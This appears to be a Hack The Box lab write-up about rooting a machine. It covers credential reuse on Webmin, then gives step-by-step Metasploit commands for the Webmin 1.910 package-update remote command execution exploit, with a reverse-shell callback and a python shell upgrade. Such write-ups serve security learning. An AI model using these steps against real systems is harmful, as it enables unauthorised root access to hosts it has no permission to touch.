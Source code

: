 # Enumeration & Escalation as Matt

- Start by enumerating the system again either manually and with the `linpeas` script.
- Nothing immediately obvious sticks out - no interesting sudo binaries, config files, backups, cronjobs,....
- We have credentials...we **need** to try them against anything on the host that accepts credentials. This includes webpages
- Success...
	- ![](Pasted%20image%2020230215205548.png)


## Rooting the box (Matt -> Root)
- We're now authenticated to the webmin service, have some great enumeration information in front of us (that we have confirmed previously), and can start snooping around the various links for any further vulnerabilities.
- First check [exploit-db](https://www.exploit-db.com) for any exploits regarding Webmin 1.910 (identified on the dashboard above and by nmap)
- Theres many results when searching for webmin, but theres a potential easy button here with the [Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)]( https://www.exploit-db.com/exploits/46984) exploit.
- On Kali:
	1. Open metasploit in a new terminal window by running `msfconsole`
	2. In the prompt type `search webmin` resulting in something like
		1. ![](Pasted%20image%2020230215210920.png)
	3. Select `exploit/linux/http/webmin_packageup_rce` by typing `use 4`
	4. This will load the exploit and allow you to set exploit specific options:
		1. `set RHOST $IP` - this will set the remote host aka the victim
		2. `set RPORT 10000` - since we are attacking the webmin service, we need to point it towards the right webapp
		3. `set LHOST tun0` - rather than specifying a listening host IP, we can set a local interface. The Hackthebox runs on `tun0`
		4. `set USERNAME Matt` - this is case sensitive
		5. `set PASSWORD computer2008`
		6. `set SSL true` - we cant hit the webmin dashboard with HTTP, it requires HTTPS so we must enable SSL for the exploit as well
		7. `exploit`
- Success...
	- ![](Pasted%20image%2020230215211355.png)
- This is a horrible shell though, so we'll need to upgrade it for QoL purposes. The easiest way to do so is using python if its present on the system.
	- `which python`
	- `python -c 'import pty;pty.spawn("/bin/bash")'`
- ![](Pasted%20image%2020230215211514.png)


# Takeaways
- 